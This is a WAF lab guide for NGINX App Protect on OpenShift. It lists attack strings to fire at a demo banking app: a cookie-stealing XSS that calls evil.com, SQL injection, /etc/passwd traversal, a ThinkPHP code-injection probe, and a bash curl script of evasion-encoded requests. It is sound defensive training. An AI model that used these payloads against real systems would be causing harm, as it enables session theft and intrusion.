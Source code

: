 == Access the Application and test the NGINX App Protect WAF to see how it works in action

Now that NGINX App Protect WAF is enabled, let's test its ability to
protect against Layer 7 attacks. Follow these steps:

Launch the Firefox browser and open Arcadia Finance app:

____
[NOTE]
.Note
====
Make sure you get the nginx-ingress EXTERNAL-IP with commmand
`oc get svc --namespace=nginx-ingress`
====

. In the Browser, open NGINX Ingress Controller URL to access Arcadia
app (replace with the nginx-ingress EXTERNAL-IP): http://EXTERNAL-IP/
. Click on `Login` and use the credentials `matt:ilovef5`
. You should see all the apps running (main, back, app2 and app3)
. Execute the same XSS attack we did in Module 1 by appending
`?a=<script>` to the end of the application URL. Observe that the attack
is now blocked and the user is provided with a support ID.

[source,html]
----
The requested URL was rejected. Please consult with your administrator.

Your support ID is: 5374014569933997707

[Go Back]
----

[NOTE]
.Note
====
Did you notice the blocking page is similar to F5 ASM and Adv. WAF ?
====

image:./pictures/image18.png[image]

. Execute the second attack by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, and observe the results

image:./pictures/image19.png[image]

. Feel free to execute any attacks you would like and observe the
results.
____

Congratulations on securing your application!

*Here are some optional attacks you can try (Optional)*

[NOTE]
.Note
====
Execute the attack by appending such string as
`?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+` to the end of
the application URL.
====

* SQL Injection -
`GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+`
* Remote File Include -
`GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch`
* Command Execution - `GET /?hfsagrs=%2Fproc%2Fself%2Fenviron`
* HTTP Parser Attack - `GET /?XDEBUG_SESSION_START=phpstorm`
* Predictable Resource Location Path Traversal -
`GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd`
* Cross Site Scripting -
`GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+`
* Informtion Leakage -
`GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw`
* HTTP Parser Attack Forceful Browsing -
`GET /dana-na/auth/url_default/welcome.cgi`
* Non-browser Client,Abuse of Functionality,Server Side Code
Injection,HTTP Parser Attack -
`GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP`
* Cross Site Scripting -
`GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n"`

*and many more from bash script below (Just for your information)*

____
[NOTE]
.Note
====
Execute the attack by running the following bash script from the
terminal window
====

#!/bin/bash echo "------------------------------" echo "Starting
security testing..." echo "------------------------------" echo "" echo
""

# Get the external IP address of the NGINX Ingress Controller
EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress
-n nginx-ingress | awk 'NR==2\{print $4}')

echo
"---------------------------------------------------------------------"
echo "Multiple decoding" echo "Sending: curl -k
'http://$EXTERNAL_IP/three_decodin%2525252567.html'" echo
"---------------------------------------------------------------------"

# Send a request with multiple decoding curl -k
"http://$EXTERNAL_IP/three_decodin%2525252567.html" sleep 3

echo
"-----------------------------------------------------------------------------"
echo "Apache Whitespace" echo "Sending: curl -k
'http://$EXTERNAL_IP/tab_escaped%09.html'" echo
"-----------------------------------------------------------------------------"

# Send a request with Apache whitespace curl -k
"http://$EXTERNAL_IP/tab_escaped%09.html" sleep 3

echo
"-----------------------------------------------------------------------------"
echo "IIS Backslashes" echo "Sending: curl -k
'http://$EXTERNAL_IP/regular%5cescaped_back.html'" echo
"-----------------------------------------------------------------------------"

# Send a request with IIS backslashes curl -k
"http://$EXTERNAL_IP/regular%5cescaped_back.html" sleep 3

echo
"-----------------------------------------------------------------------------"
echo "Carriage Return Escaping" echo "Sending: curl -k
'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'" echo
"-----------------------------------------------------------------------------"

# Send a request with carriage return escaping curl -k
"http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2" sleep 3

echo
"-----------------------------------------------------------------------------"
echo "Cross site scripting" echo "Sending: curl -k
'http://$EXTERNAL_IP/%25%25252541PPDATA%25'" echo
"-----------------------------------------------------------------------------"

# Send a request with cross-site scripting payload curl -k
"http://$EXTERNAL_IP/%25%25252541PPDATA%25"
____

=== Security Logging

To verify that F5 Application Protection WAF is logging security events,
follow these steps:

. Get the local syslog server POD.
+
____
In the terminal window, copy the below text and paste+enter:

[source,bash]
----
oc get pod -o wide
----

Example:

[source,bash]
----
[lab-user@bastion app-protect-waf]$ oc get pod -o wide
NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
----
____
. Examine the logging matching the support ID of the attack
+
____
--
In the terminal window, copy the below text and paste+enter:

[source,bash]
----
oc exec -it pod/syslog-bb47bd798-mhh64  -- cat /var/log/messages | grep 7175144470433567675
----

Where `pod/syslog-bb47bd798-mhh64` is the name of the pod and container
where the syslog server is running. `7175144470433567675` is support ID
of the attack.

Example:

____
image:./pictures/image13.png[image]
____

--
____

Congratulations on completing the Lab! You have learned how to deploy
the NGINX App Protect WAF in Kubernetes and how to use the NGINX App
Protect WAF to protect your applications from attacks.
